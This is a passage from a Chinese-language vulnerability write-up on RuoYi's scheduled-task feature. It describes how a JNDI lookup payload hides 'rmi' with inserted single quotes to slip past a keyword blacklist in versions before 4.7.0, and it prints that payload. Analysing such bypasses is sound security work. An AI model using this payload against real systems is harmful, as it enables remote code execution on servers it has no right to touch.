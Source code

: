 后边发现不止这一篇，其他就不在举例了。

![image-20240306193040061](assets/1710465660-71d3b3207382ede0dd443ec2ce6c941c.png)

但是我去翻了 diff，发现在 4.7.1 中的黑名单已经过滤了这些 poc。

![image-20240306191126087](assets/1710465660-0afcbcdd2a3665d5bd82fb0d936755e3.png)

### 单引号绕过

在 4.7.0 的版本以下，仅仅只是屏蔽了 ldap、http (s)、ldap。这里可以结合若依对将参数中的所有单引号替换为空来绕过

poc、例如：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://127.0.0.1:1099/refObj')
```

分析：

创建任务时 `r'm'i` 可以绕过对 `rmi` 的过滤

![image-20240306233303535](assets/1710465660-d248bc582ca07a3e6863fd76658e8e9c.png)
